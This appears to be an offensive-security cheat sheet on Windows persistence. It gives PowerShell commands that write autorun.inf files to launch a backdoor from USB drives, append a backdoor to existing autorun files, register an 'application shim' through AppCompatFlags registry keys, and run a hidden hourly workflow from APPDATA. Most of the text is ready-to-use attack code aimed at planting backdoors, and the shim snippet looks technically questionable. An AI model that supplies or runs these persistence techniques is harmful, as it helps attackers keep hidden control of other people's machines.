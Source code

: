 # External Drives and Autorun

#### Create `autorun.inf` for USB Drives
- USB drives that contain an `autorun.inf` file can automatically run executables when inserted (on older systems).
	```powershell
	Set-Content -Path "D:\autorun.inf" -Value "[autorun]`nopen=backdoor.exe"
	```

#### Modify Existing Autorun Files
- Edit or append to existing `autorun.inf` files to add your backdoor.
	```powershell
	Add-Content -Path "D:\autorun.inf" -Value "`nopen=C:\Backdoor\backdoor.exe"
	```

# Application Shimming

#### Persist via Application Shimming
- Creates an application shim for persistence:
	```
	$shim = @"
	$shimguid = '{<shim_guid>}'
	$shimpath = "$env:TEMP\shim.exe"
	$cmd = "powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>"
	$shimcmd = "$shimpath /db $env:TEMP\shim.sdb /gui /quiet"
	New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "$shimguid"
	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom\$shimguid" -Name "CustomDLL" -Value "$cmd"
	"@
	$shim | Out-File -FilePath "$env:TEMP\malicious_shim.ps1"
	powershell.exe -NoProfile -WindowStyle Hidden -File "$env:TEMP\malicious_shim.ps1"
	```

# Scheduled Workflows

#### Create a Workflow Task
- Creates a workflow task for persistence:
	```
	$workflowContent = @"
	workflow PersistentWorkflow {
	    while ($true) {
	        InlineScript {
	            powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>
	        }
	        Start-Sleep -Seconds 3600
	    }
	}
	PersistentWorkflow
	"@
	$workflowContent | Out-File -FilePath "$env:APPDATA\PersistentWorkflow.ps1"
	powershell.exe -NoProfile -WindowStyle Hidden -File "$env:APPDATA\PersistentWorkflow.ps1"
	```
